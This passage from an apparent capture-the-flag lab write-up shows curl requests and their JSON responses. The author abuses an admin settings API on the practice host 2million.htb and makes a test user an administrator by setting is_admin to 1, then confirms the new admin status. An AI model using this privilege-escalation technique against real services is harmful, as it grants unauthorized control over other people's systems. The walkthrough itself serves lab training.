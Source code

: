 ```
┌──(kali㉿kali)-[~/Desktop/htb/twomillion]
└─$ curl -X PUT http://2million.htb/api/v1/admin/settings/update --cookie "PHPSESSID=cc3n1i5cmnodhcva9ugr2saprf" --header "Content-Type: application/json" --data '{"email": "test@2million.htb"}' | jq
  % Total    % Received % Xferd  Average Speed   Time    Time     Time  Current
                                 Dload  Upload   Total   Spent    Left  Speed
100    89    0    59  100    30     35     18  0:00:01  0:00:01 --:--:--    53
{
  "status": "danger",
  "message": "Missing parameter: is_admin"
}
```

Let's also add the `is_admin` parameter.

```
┌──(kali㉿kali)-[~/Desktop/htb/twomillion]
└─$ curl -X PUT http://2million.htb/api/v1/admin/settings/update --cookie "PHPSESSID=cc3n1i5cmnodhcva9ugr2saprf" --header "Content-Type: application/json" --data '{"email": "test@2million.htb", "is_admin": "true"}' | jq
  % Total    % Received % Xferd  Average Speed   Time    Time     Time  Current
                                 Dload  Upload   Total   Spent    Left  Speed
100   126    0    76  100    50     34     22  0:00:02  0:00:02 --:--:--    56
{
  "status": "danger",
  "message": "Variable is_admin needs to be either 0 or 1."
}

┌──(kali㉿kali)-[~/Desktop/htb/twomillion]
└─$ curl -X PUT http://2million.htb/api/v1/admin/settings/update --cookie "PHPSESSID=cc3n1i5cmnodhcva9ugr2saprf" --header "Content-Type: application/json" --data '{"email": "test@2million.htb", "is_admin": '1'}' | jq
  % Total    % Received % Xferd  Average Speed   Time    Time     Time  Current
                                 Dload  Upload   Total   Spent    Left  Speed
100    89    0    44  100    45     75     77 --:--:-- --:--:-- --:--:--   153
{
  "id": 16,
  "username": "testuser",
  "is_admin": 1
}
```

Let's double check if our user is now an admin.

```
┌──(kali㉿kali)-[~/Desktop/htb/twomillion]
└─$ curl http://2million.htb/api/v1/admin/auth --cookie "PHPSESSID=cc3n1i5cmnodhcva9ugr2saprf" | jq
  % Total    % Received % Xferd  Average Speed   Time    Time     Time  Current
                                 Dload  Upload   Total   Spent    Left  Speed
100    16    0    16    0     0     12      0 --:--:--  0:00:01 --:--:--    12
{
  "message": true
}
```
